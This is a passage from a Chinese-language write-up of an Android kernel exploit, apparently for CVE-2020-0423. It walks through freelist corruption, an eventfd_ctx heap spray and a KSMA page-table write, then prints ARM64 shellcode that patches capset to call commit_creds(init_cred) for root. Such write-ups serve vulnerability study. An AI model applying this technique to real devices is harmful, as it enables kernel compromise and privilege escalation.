  首先找了一个足够大的完全用0填充的内核内存区域（| 0x40100）还在其中，作者在这里选择了ipa_testbus_mem ，0x198000大小的缓冲区，利用被重叠的signalfd覆盖free的对象，修改freelist为
  
  ipa_testbus_mem | 0x40100,所以下次分配的地址为ipa_testbus_mem | 0x40100
  
  
  
  ```c
  struct eventfd_ctx {
      struct kref kref;
      wait_queue_head_t wqh;
      /*
       * Every time that a write(2) is performed on an eventfd, the
       * value of the __u64 being written is added to "count" and a
       * wakeup is performed on "wqh". A read(2) will return the "count"
       * value to userspace, and will reset "count" to zero. The kernel
       * side eventfd_signal() also, adds to the "count" counter and
       * issue a wakeup.
       */
      __u64 count;
      unsigned int flags;
  };
  ```
  
  之后使用eventfd_ctx来堆喷，eventfd_ctx的count 我们是可以写入任意值 ，偏移为0x20,向count写入（swapper_pg_dir+ 0x1e0 *8）COUNT+0XB5F00也就是我们需要填入block descriptor的地址
  
  

接着free掉所有的eventfd,重新利用重叠的signalfd设置freelist为ipa_testbus_mem | 0x40100 + 0x20(count的位置)，接着再次喷射signalfd ,并写入 `0x00e8000080000751`，由此ksma攻击完成，我们可以修改任意kernel code 和kernel data了

### 提权

这一步，是想怎么来就怎么来了，作者在这里patch掉capset,将它改为如下shell code

```c
uint64_t sys_capset_addr = base + 0x80000 + SYS_CAPSET;
uint64_t init_cred_addr = kaslr_leak + INIT_CRED;
uint64_t commit_creds_addr = kaslr_leak + COMMIT_CREDS;

uint32_t shellcode[] = {
    // commit_creds(init_cred)
    0x58000040, // ldr x0, .+8
    0x14000003, // b   .+12
    LO_DWORD(init_cred_addr),
    HI_DWORD(init_cred_addr),
    0x58000041, // ldr x1, .+8
    0x14000003, // b   .+12
    LO_DWORD(commit_creds_addr),
    HI_DWORD(commit_creds_addr),
    0xA9BF7BFD, // stp x29, x30, [sp, #-0x10]!
    0xD63F0020, // blr x1
    0xA8C17BFD, // ldp x29, x30, [sp], #0x10

    0x2A1F03E0, // mov w0, wzr
    0xD65F03C0, // ret
};
```

由此完成


##  参考


https://bbs.pediy.com/thread-264616.htm

https://www.longterm.io/cve-2020-0423.html
